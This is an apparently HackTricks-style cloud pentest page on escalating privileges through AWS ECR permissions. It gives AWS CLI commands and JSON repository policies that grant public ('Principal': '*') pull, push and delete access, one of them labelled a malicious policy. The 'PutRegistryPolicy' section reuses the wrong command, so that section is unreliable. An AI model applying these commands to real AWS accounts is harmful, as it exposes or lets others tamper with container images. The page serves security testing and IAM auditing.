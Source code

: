 # AWS - ECR Privesc

{{#include ../../../banners/hacktricks-training.md}}

## ECR

### `ecr:GetAuthorizationToken`,`ecr:BatchGetImage`

An attacker with the **`ecr:GetAuthorizationToken`** and **`ecr:BatchGetImage`** can login to ECR and download images.

For more info on how to download images:

{{#ref}}
../aws-post-exploitation/aws-ecr-post-exploitation.md
{{#endref}}

**Potential Impact:** Indirect privesc by intercepting sensitive information in the traffic.

### `ecr:GetAuthorizationToken`, `ecr:BatchCheckLayerAvailability`, `ecr:CompleteLayerUpload`, `ecr:InitiateLayerUpload`, `ecr:PutImage`, `ecr:UploadLayerPart`

An attacker with the all those permissions **can login to ECR and upload images**. This can be useful to escalate privileges to other environments where those images are being used.

To learn how to upload a new image/update one, check:

{{#ref}}
../aws-services/aws-eks-enum.md
{{#endref}}

### `ecr-public:GetAuthorizationToken`, `ecr-public:BatchCheckLayerAvailability, ecr-public:CompleteLayerUpload`, `ecr-public:InitiateLayerUpload, ecr-public:PutImage`, `ecr-public:UploadLayerPart`

Like the previous section, but for public repositories.

### `ecr:SetRepositoryPolicy`

An attacker with this permission could **change** the **repository** **policy** to grant himself (or even everyone) **read/write access**.\
For example, in this example read access is given to everyone.

```bash
aws ecr set-repository-policy \
    --repository-name <repo_name> \
    --policy-text file://my-policy.json
```

Contents of `my-policy.json`:

```json
{
  "Version": "2008-10-17",
  "Statement": [
    {
      "Sid": "allow public pull",
      "Effect": "Allow",
      "Principal": "*",
      "Action": [
        "ecr:BatchCheckLayerAvailability",
        "ecr:BatchGetImage",
        "ecr:GetDownloadUrlForLayer"
      ]
    }
  ]
}
```

### `ecr-public:SetRepositoryPolicy`

Like the previoous section, but for public repositories.\
An attacker can **modify the repository policy** of an ECR Public repository to grant unauthorized public access or to escalate their privileges.

```bash
bashCopy code# Create a JSON file with the malicious public repository policy
echo '{
  "Version": "2008-10-17",
  "Statement": [
    {
      "Sid": "MaliciousPublicRepoPolicy",
      "Effect": "Allow",
      "Principal": "*",
      "Action": [
        "ecr-public:GetDownloadUrlForLayer",
        "ecr-public:BatchGetImage",
        "ecr-public:BatchCheckLayerAvailability",
        "ecr-public:PutImage",
        "ecr-public:InitiateLayerUpload",
        "ecr-public:UploadLayerPart",
        "ecr-public:CompleteLayerUpload",
        "ecr-public:DeleteRepositoryPolicy"
      ]
    }
  ]
}' > malicious_public_repo_policy.json

# Apply the malicious public repository policy to the ECR Public repository
aws ecr-public set-repository-policy --repository-name your-ecr-public-repo-name --policy-text file://malicious_public_repo_policy.json
```

**Potential Impact**: Unauthorized public access to the ECR Public repository, allowing any user to push, pull, or delete images.

### `ecr:PutRegistryPolicy`

An attacker with this permission could **change** the **registry policy** to grant himself, his account (or even everyone) **read/write access**.

```bash
aws ecr set-repository-policy \
    --repository-name <repo_name> \
    --policy-text file://my-policy.json
```

{{#include ../../../banners/hacktricks-training.md}}
